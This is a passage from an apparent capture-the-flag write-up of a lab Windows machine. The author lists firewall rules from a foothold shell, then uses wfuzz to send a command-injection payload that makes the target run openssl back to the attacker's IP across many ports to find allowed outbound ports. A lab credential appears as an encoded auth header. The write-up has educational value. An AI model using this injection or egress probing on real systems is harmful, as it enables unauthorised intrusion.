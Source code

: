 I’m going to use the `netsh advfirewall` command to print the firewall rules,
but I’m going to just get the name lines (using `findstr`, Window’s `grep`
equivalent), because my shell is so slow:

    
    
    ethereal> cmd /c "netsh advfirewall firewall show rule name=all|findstr Name:"
    Rule Name: @{Microsoft.XboxGameCallableUI_1000.14393.0.0_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.XboxGameCallableUI/resources/PkgDisplayName}
    Rule Name: @{Microsoft.Windows.Apprep.ChxApp_1000.14393.2339.0_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.Apprep.ChxApp/resources/DisplayName}
    Rule Name: @{Microsoft.LockApp_10.0.14393.2068_neutral__cw5n1h2txyewy?ms-resource://Microsoft.LockApp/resources/AppDisplayName}
    Rule Name: @{Microsoft.AccountsControl_10.0.14393.2068_neutral__cw5n1h2txyewy?ms-resource://Microsoft.AccountsControl/Resources/DisplayName}
    Rule Name: @{Microsoft.Windows.Cortana_1.7.0.14393_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.Cortana/resources/PackageDisplayName}
    Rule Name: @{Microsoft.Windows.Cortana_1.7.0.14393_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.Cortana/resources/PackageDisplayName}
    Rule Name: @{Microsoft.Windows.ShellExperienceHost_10.0.14393.2068_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.ShellExperienceHost/resources/PkgDisplayName}
    Rule Name: @{Microsoft.Windows.CloudExperienceHost_10.0.14393.1066_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.CloudExperienceHost/resources/appDescription}
    Rule Name: @{Microsoft.Windows.CloudExperienceHost_10.0.14393.1066_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.Windows.CloudExperienceHost/resources/appDescription}
    Rule Name: @{Microsoft.AAD.BrokerPlugin_1000.14393.0.0_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.AAD.BrokerPlugin/resources/PackageDisplayName}
    Rule Name: @{Microsoft.AAD.BrokerPlugin_1000.14393.0.0_neutral_neutral_cw5n1h2txyewy?ms-resource://Microsoft.AAD.BrokerPlugin/resources/PackageDisplayName}
    Rule Name: FTP (non-SSL)
    Rule Name: Allow ICMP Reply
    Rule Name: Allow ICMP Request
    Rule Name: Allow UDP Port 53
    Rule Name: Allow TCP Ports 73, 136
    Rule Name: Allow Port 80, 8080
    Rule Name: Allow ICMP Request
    Rule Name: Allow ICMP Reply
    

Immediately `Rule Name: Allow TCP Ports 73, 136` jumps out. I can use
`openssl` as in the previous method to check that those ports are allowed out.

#### wfuzz

Stepping back, what I am actually doing is issuing a web request that results
in traffic showing up in `tcpdump`. Rather than loop on target (which was kind
of slow), why not loop locally and send a lot of requests. That’s what `wfuzz`
is perfect for. I’ll go into burp and get the most recent parameters. I don’t
need output, so I can do simple command injection without the for command loop
and the nslookup. I’ll start `tcpdump`, and run `wfuzz`:

  * `-z range,1-1000` \- The items I’ll fuzz over, the numbers 1 to 1000.
  * `--hs 'body'` \- This hides results based on regex match; I’m getting results though `tcpdump`, so ‘body’ should match on all results, hiding all results.
  * `-H 'Authorization: Basic YWxhbjohQzQxNG0xN3k1N3IxazNzNGc0MW4h'` \- Basic auth.
  * `-d ...&search=%26+c%3a\progra~2\openss~1.0\bin\openssl.exe+s_client+-quiet+-connect+10.10.14.14%3aFUZZ&...` \- The command to connect to my host on the FUZZ port.
